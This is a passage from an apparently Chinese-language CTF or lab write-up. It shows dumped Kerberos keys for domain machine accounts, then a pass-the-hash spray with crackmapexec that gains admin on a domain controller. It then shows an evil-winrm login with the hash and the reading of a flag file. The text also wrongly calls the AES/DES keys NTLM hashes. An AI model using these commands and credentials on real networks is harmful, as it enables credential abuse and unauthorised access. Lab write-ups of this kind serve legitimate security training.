WIN-9LOH12M435J$:aes256-cts-hmac-sha1-96:ef053a165c58a94bbbb898bee870e73be68e47f26545ac471ff7ef2ea8691759
WIN-9LOH12M435J$:aes128-cts-hmac-sha1-96:3962d88a3f302f753ceac9403d46946d
WIN-9LOH12M435J$:des-cbc-md5:38518332610b61a1
FileServer$$:aes256-cts-hmac-sha1-96:7e82fc88fb3585bfd9acd92afeee79ba42ae802a37944f7f5d85b43ee61b29f4
FileServer$$:aes128-cts-hmac-sha1-96:366b43175914dedabb9aa6b80b3121b7
FileServer$$:des-cbc-md5:7fd55b76433d105e

```

发现了多个计算机账户的NTLM哈希值！

# 哈希传递攻击

```
提取用户名和哈希值：
awk -F '[:]' '{print $1}' backup_extract.txt > user                                                                                                                                                                                                                                        
awk -F '[:]' '{print $4}' backup_extract.txt > pass
```

使用哈希进行认证测试：

```
crackmapexec smb 192.168.111.20 -u user -H pass --continue-on-success| grep '+' 
```

‍

```
SMB    192.168.111.20  445    DC01      [+] soupedecode.local\FileServer$:3647bc99352403e306780b2c0c63a685 (Pwn3d!)
```

`FileServer$` 账户具有管理员权限！

# 通过WinRM获取Shell

使用 `FileServer$` 的NTLM哈希通过WinRM获取系统访问权限：

```
evil-winrm -i 192.168.111.20 -u  "FileServer$" -H "3647bc99352403e306780b2c0c63a685"   
```

‍

```
*Evil-WinRM* PS C:\> dir


    目录: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        11/19/2025   1:56 AM                backup
d-----          5/8/2021   4:20 PM                PerfLogs
d-r---        11/18/2025  11:59 PM                Program Files
d-----          5/8/2021  10:23 PM                Program Files (x86)
d-r---         7/17/2026   2:42 PM                Users
d-----        11/19/2025   2:17 AM                Windows
-a----        11/19/2025   2:05 AM             32 flag.log


*Evil-WinRM* PS C:\> type flag.log
bd42e8070dd53effd2c93ae6c7e08685

```
